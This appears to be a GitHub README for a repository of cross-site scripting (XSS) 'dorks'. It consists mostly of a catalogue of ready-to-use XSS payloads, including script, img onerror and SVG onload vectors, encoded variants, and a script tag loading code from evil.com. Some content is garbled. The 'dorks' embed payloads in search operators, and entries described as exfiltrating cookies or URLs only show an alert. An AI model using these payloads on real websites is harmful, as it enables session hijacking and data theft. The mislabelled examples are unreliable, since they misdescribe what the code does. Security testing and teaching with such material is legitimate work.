 # Cross-Site Scripting (XSS) Dorks Repository

![Cross-Site Scripting](https://img.shields.io/badge/Cross--Site%20Scripting-red)

Welcome to the Cross-Site Scripting (XSS) Dorks repository! This repository contains a collection of XSS dorks and an explanation of what XSS is, along with advanced examples of XSS dorks.

## Table of Contents
- [What is Cross-Site Scripting (XSS)?](#what-is-cross-site-scripting-xss)
- [Examples of Cross-Site Scripting (XSS) Dorks](#examples-of-cross-site-scripting-xss-dorks)
- [Understanding XSS](#understanding-xss)
- [Advanced XSS Concepts](#advanced-xss-concepts)
- [Comprehensive Cross-Site Scripting (XSS) Payloads](#Comprehensive-Cross-Site-Scripting-(XSS)-Payloads)
- [Exploring the GDorks Main Repository](#exploring-the-gdorks-main-repository)
- [How to Use This Repository](#how-to-use-this-repository)
- [Contributing](#contributing)


## What is Cross-Site Scripting (XSS)?

Cross-Site Scripting (XSS) is a security vulnerability found in web applications that allows attackers to inject malicious scripts into web pages viewed by other users. These scripts execute within the browser, compromising user sessions, stealing data, or redirecting users to malicious sites.

## Examples of Cross-Site Scripting (XSS) Dorks

Here are advanced examples of Cross-Site Scripting (XSS) dorks that illustrate various attack vectors:

1. **<img> Tag XSS Dork**: This dork can be used to identify websites vulnerable to XSS using the `<img>` tag.

   ```
   inurl:/profile.php?username=<img src="javascript:alert('XSS')" />
   ```

2. **Event Handler XSS Dork**: Identifies websites vulnerable to XSS through event handler attributes.

   ```
   inurl:/news.php?id=1" onmouseover="alert('XSS')"--
   ```

3. **Script Injection through Input Fields**: Detects websites susceptible to XSS via input fields.

   ```
   inurl:/search?query=<script>alert('XSS')</script>
   ```

## Comprehensive Cross-Site Scripting (XSS) Payloads

XSS payloads come in various forms and contexts, allowing for diverse exploitation scenarios. Below are examples of XSS payloads in different formats, contexts, and encodings, enabling the demonstration and testing of XSS vulnerabilities:

1. **Basic Alert Payload:**

   ```javascript
   <script>alert('XSS')</script>
   ```

2. **Image Source Payload:**

   ```javascript
   <img src="javascript:alert('XSS')" />
   ```

3. **Input Field Payload:**

   ```javascript
   <input type="text" value="<script>alert('XSS')</script>" />
   ```

4. **Event Handler Payload:**

   ```javascript
   <div onmouseover="alert('XSS')">Mouse over me</div>
   ```

5. **Encoded Payloads:**

   - Basic Alert Payload encoded as URL: `%3Cscript%3Ealert('XSS')%3C%2Fscript%3E`
   - Base64 encoded Payload: `PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

6. **SVG-based Payloads:**

   ```xml
   <svg onload="alert('XSS')" />
   ```

   ```xml
   <svg><script>alert('XSS')</script></svg>
   ```

7. **URL Payloads:**

   - URL payload as a query parameter: `http://example.com/?name=<script>alert('XSS')</script>`

8. **Image Payload with Invalid Source:**

   ```javascript
   <img src="invalid" onerror="alert('XSS')" />
   ```

9. **Data URI Payload:**

   ```html
   <a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">Click me</a>
   ```

10. **DOM-based Payloads:**

    - Using document.cookie to exfiltrate cookies: `';alert(String.fromCharCode(88,83,83))//'`
    - Using location.href to exfiltrate the URL: `';alert(document.location)//`
   
11. **HTML Event Payloads:**

    - XSS via onerror attribute: `<img src="test" onerror="alert('XSS')" />`
    - XSS via onfocus attribute: `<input type="text" onfocus="alert('XSS')" />`
    - XSS via onload attribute: `<body onload="alert('XSS')" />`

12. **Script Tag Payloads:**

    - Embedding scripts as part of the content: `<script>alert('XSS')</script>`
    - Executing scripts from the URL parameter: `<script src="http://evil.com/malicious.js"></script>`

Feel free to use these payloads to test for XSS vulnerabilities in web applications. Always ensure you have proper authorization and consent before performing any security testing.

Keep in mind that these examples are for educational purposes, and using them for unauthorized testing or exploitation is strictly prohibited.

## Understanding XSS
XSS vulnerabilities can have severe implications, including data theft, session hijacking, and unauthorized access. Understanding the different types of XSS and employing secure coding practices can help prevent such vulnerabilities.

## Advanced XSS Concepts

Advanced XSS involves bypassing filters, utilizing different encoding techniques, and exploiting client-side vulnerabilities. Techniques include DOM-based XSS, circumventing Content Security Policy (CSP), and using JavaScript obfuscation to evade detection.

## Exploring the GDorks Main Repository

The [GDorks repository](https://github.com/Ishanoshada/GDorks/) is a rich resource housing an extensive collection of XSS dorks, categorized folders, and comprehensive documentation covering various XSS attack vectors and methods. It's an invaluable resource for learning and protecting against XSS vulnerabilities.

## How to Use This Repository

This repository is organized into folders, each containing specific XSS dorks and related information. Users can browse through the folders to explore XSS dorks of interest.

To contribute to this repository, follow the steps outlined in the [Contributing](#contributing) section.

## Contributing

Contributions to this repository are welcome! If you have additional XSS dorks, examples, or documentation to share, please follow these steps:

1. Fork the repository.
2. Create a new branch with a descriptive name.
3. Add your XSS dorks or other content.
4. Submit a pull request.

Your contributions will help make this repository more comprehensive and informative for the community.
